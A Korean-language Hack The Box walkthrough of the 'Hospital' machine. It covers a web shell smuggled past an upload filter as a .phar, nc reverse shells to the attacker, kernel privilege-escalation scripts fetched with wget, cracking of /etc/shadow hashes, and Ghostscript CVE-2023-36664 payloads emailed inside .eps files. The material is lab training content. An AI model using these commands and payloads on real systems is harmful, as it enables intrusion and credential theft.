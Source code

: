 ### 사용된 취약점: 파일 업로드 취약점, 커널 취약, Ghostscript command injection
### 초기 침투
![1](https://github.com/murphy701/security/assets/50907298/a5b8506f-5d2a-42ba-8c6a-da5b65643419)
- 스캔 결과
  - 443:webmail(roundcube)
  - 8080:login, upload
  - RPC
<br></br>
- 파일 업로드 부분이 있어서 웹쉘 업로드를 시도하였지만 거부당함
  - 이미지 파일로 만들고 올리는 것으로 시도함
  - touch exploit.jpg; echo test>exploit.jpg로 파일 생성
  - https://github.com/flozz/p0wny-shell?source=post_page-----887fd3d6fee9
    - 해당 웹쉘을 사용(코드만)
  - jpg에 소스코드를 넣고 exploit.jpg파일을 업로드 할 때 burpsuite에서 exploit.jpg를 phar로 변경하여 업로드
  - hospital.htb:8080/uploads.exploit.phar로 연결
 <br></br>
  - 연결한 상태에서 rm /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ip> 4444 >/tmp/f 로 reverse shell을 연결
  - kali에서는 nc -lnvp 4444로 대기
  - 연결 후 python3 -c 'import pty; pty.spawn("/bin/bash")'실행
    <br></br>

- 연결 이후 uname -r로 커널 버전 확인
- 취약한 버전의 커널인 것으로 확인되어 권한 상승을 시도함
  - CVE-2023-32629
  - 6.2.0, 5.19.0, 5.4.0 우분투에서 취약함
  - 마운트된 파일에 권한 있는 확장 속성 설정을 가능하게 하는 취약점
  - 저번 htb에서 비슷하고 본것 같은 권한상승 방법
- https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----887fd3d6fee9
- 해당 웹쉘을 리버스 쉘로 연결된 상태에서 wget \<ip\>:8001/exploit.sh로 다운로드 시킨다.
- kali에서는 /var/www/html에 exploit.sh를 위치 시키고 python3 -m http.server 8001을 실행한다.
  - 실행하여 권한을 상승한다.
<br></br>

- cat /etc/shadow로 drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash를 확인할 수 있다.
  - pw hash는 sha-512인 것을 알 수 있다.
- john --wordlist=/usr/share/wordlists/rockyou.txt drwilliams.txt로 패스워드를 크랙할 수 있다.
  - 해시 값 크랙 시 파일에 넣을 값으로 shadow파일 전체를 넣는다
  - pw 해시값 만이 아닌 유효 시간 부분을 전부 넣는다
  <br></br>   
- https://10.10.11.241:443으로 접속
  - drwilliams와 크랙으로 얻은 pw로 접속
- mailbox 에서 찾은 내용으로 .eps, ghostscript가 있음
   - ghostscript가 파이프 문자의 권한 유효성 검사 실패로 임의 코드 실행하는 취약점
   - 이를 이용하여 .eps파일에 스크립트 삽입
  <br></br>
- https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection?source=post_page-----887fd3d6fee9
- nc.exe, nc64.exe와 해당 웹 쉘을 다운로드한다.
  - python3 -m http.server 8001
    - 주의 사항으로 파이썬 웹 서버 명령 실행 시 경로를 /var/www/html에서 실행해야 함
  - python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.16.24:8001/nc64.exe -o nc.exe" --filename file.eps
    - 해당 명령으로 file.eps에 페이로드를 삽입
- 이후 메일에 file.eps파일을 첨부하여 보내면 해당 서버에 nc64.exe를 다운로드 시킴
<br></br>
- nc64.exe를 다운로드 시킨 상태에서 해당 명령으로 리버스 쉘을 얻는 파일을 다시 만든다
- python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe <ip> 1111 -e cmd.exe" --filename file.eps
  - nc -lnvp 1111로 연결을 기다리고 메시지에 새로운 file.eps를 보내면 리버스 쉘을 획득할 수 있다.
- 이후에 Desktop에서 type user.txt를 이용하여 플래그 값을 출력한다
  <br></br>
### 권한 상승
- documents에서 ghostscript.bat에서 pw를 찾을 수 있다.
  - type ghostscript.bat
- 해당 pw를 이용하여 rpc연결을 시도한다.
  - drwilliams와 찾은 pw를 이용
  - rpcclient -U "drbrown" hospital.htb
### querydispinfo 실행
![querydispinfo](https://github.com/murphy701/security/assets/50907298/5efc379f-077f-466c-abc5-3d7abecc44ab)
- desc 부분에 admin과 guest가 built-in account for ~ the computer/domain이 설명 되어 있음
  - 어드민 정보와 게스트 정보가 같은 도메인에 공유 되어 있음
    - 윈도우에서 흔한 것으로 같은 도메인에서 관리됨
    - 같은 pc에 존재하는 것으로 추정
<br></br>
- 기존에 리버스 쉘로 연결 되어 있던 클라이언트 pc에서 C:\xampp\htdocs에 powny 웹쉘을 업로드
  - curl <ip>:8001/exploit.php -o shell.php
- https://hospital.htb/shell.php로 접속 시 쉘을 얻을 수 있음
  - whoami 실행 시 nt authority\system 결과가 출력되며 권한 상승을 시킨 것을 알 수 있음
- C:\Users\Administrator 에서 root.txt를 읽을 수 있게 됨
<br></br>
### 알게 된 점
- 파이썬으로 웹 서버 실행하여 파일을 다운로드 하게 할 때 /var/www/html에서 python3 -m http.server를 실행해야 정상적으로 작동한다.
